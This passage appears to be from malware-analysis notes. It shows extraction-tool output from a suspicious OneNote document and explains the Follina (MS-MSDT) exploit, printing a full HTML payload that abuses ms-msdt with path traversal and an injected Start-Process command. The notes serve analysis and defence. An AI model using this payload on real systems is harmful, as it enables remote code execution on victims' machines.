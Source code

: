```
             -> Extracted Image FileName: 2_?????????? ???????.png | HyperLinkURL: Null

      -> Image Extraction Path: \AgreementCancelation_395076(Feb08)_content\OneNoteImages

[+] Extracting Text from OneNote Document

      -> Extracted OneNote Document Text:

             -> Page:  | Extraction Path: \AgreementCancelation_395076(Feb08)_content\OneNoteText\1_.txt

[+] Extracting HyperLinks from OneNote Document

      -> Extracted OneNote Document HyperLinks:  (Note: Text might contain hyperlink if no overlay)

             -> Page:

                 -> Text:
                 -> Text:

      -> HyperLink Extraction Path: \AgreementCancelation_395076(Feb08)_content\OneNoteHyperLinks\onenote_hyperlinks.txt

[+] Converting OneNote Document to Image

         -> Saved Path: \AgreementCancelation_395076(Feb08)_content\ConvertImage_AgreementCancelation_395076(Feb08).png
```

Reviewing the extract files, such as `OneNoteAttachments` folder... shows the batch file that contains a malicious payload.

# MS-MSDT scheme aka Follina Exploit

A sample shared by nao_sec that abusing ms-msdt to execute code. Refer [here](https://mobile.twitter.com/nao_sec/status/1530196847679401984).

Unzipping the documents, and navigate to `maldoc-name\word\_rels\document.xml.rels` will reveal the HTML URL which will execute their payload.

![image](https://user-images.githubusercontent.com/56353946/183518431-b8201056-19c3-4286-970f-67f51c3f8d93.png)

The payload might looks something like this:

```
<!doctype html>
    <html lang="en">
<body>
    <script>
    window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('cmd'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>
</body>
</html>
```
